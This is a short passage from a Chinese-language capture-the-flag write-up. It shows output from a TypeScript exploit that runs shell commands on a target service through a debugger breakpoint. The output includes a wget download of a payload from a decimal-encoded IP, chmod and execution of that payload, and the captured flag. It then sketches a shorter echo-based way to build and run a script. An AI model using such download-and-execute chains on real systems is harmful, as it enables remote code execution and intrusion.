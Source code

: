 ```typescript
  },
})

main()
```

```bash
sudo bun index.ts
Got message: /
# 目標跟收 Flag 的機器要攻擊腳本
Executed shell command: wget -O /z 2130706433. Response: 500
# ~~My IP is 127.0.0.1~~
Executed shell command: chmod +x /z. Response: 500
Got message: /CGGC{breakpoint_is_a_biiiig_gadget_oj237rpwd3i2}
# 出了點問題，收 Flag 機器沒辦法連上 VPN，這是用 VPN 內的機器打，VPN 外的機器收 Flag
Executed shell command: /z. Response: 500
```

由於我們沒有指定要離開 pdb，pdb 發現沒指令了會崩潰，回傳 500 正常。

這組 Payload 的 Prefix 50 字元，Suffix 6 字元，理論上能縮短成：

```bash
# 對於每一個 Shell Script 要用到的字元
echo c\\>>z
# End
chmod +x z
./z
```

理論上可以達到 67 個字元，~~晚點測試完回來更新~~

First Blood 🩸
